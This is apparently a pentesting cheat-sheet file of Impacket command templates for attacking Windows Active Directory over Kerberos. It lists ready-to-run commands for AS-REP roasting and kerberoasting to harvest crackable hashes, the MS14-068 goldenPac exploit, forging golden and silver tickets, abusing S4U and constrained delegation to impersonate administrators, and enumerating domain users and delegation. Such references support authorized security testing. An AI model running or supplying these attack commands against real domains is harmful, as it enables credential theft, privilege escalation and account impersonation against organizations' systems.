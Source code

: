 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoasting)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## find delegation
#plateform/linux #target/remote #cat/RECON
```
findDelegation.py -dc-ip <dc_ip> '<domain>/<user>:<password>'
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ (ASREPRoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - tickets UNIX to Win

```
ticketConverter.py <ticket.ccache> <ticket.kirbi>
```

## Ticketer - tickets Win to Unix

```
ticketConverter.py <ticket.kirbi> <ticket.ccache>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#plateform/linux #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## Constrained deleg w/ protocol transition - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -dc-ip <dc_ip> -spn cifs/<target> '<domain>/<user>:<password>' -impersonate <admin>
```

## S4U2Self - Get TGT of user of choice from local admin 
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -self -impersonate "<admin_de_dom>" -spn "cifs/<dc>.<domain>" -k -no-pass -dc-ip <dc_ip> '<domain>'/'<dc>$'
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#plateform/linux #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
#plateform/linux #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
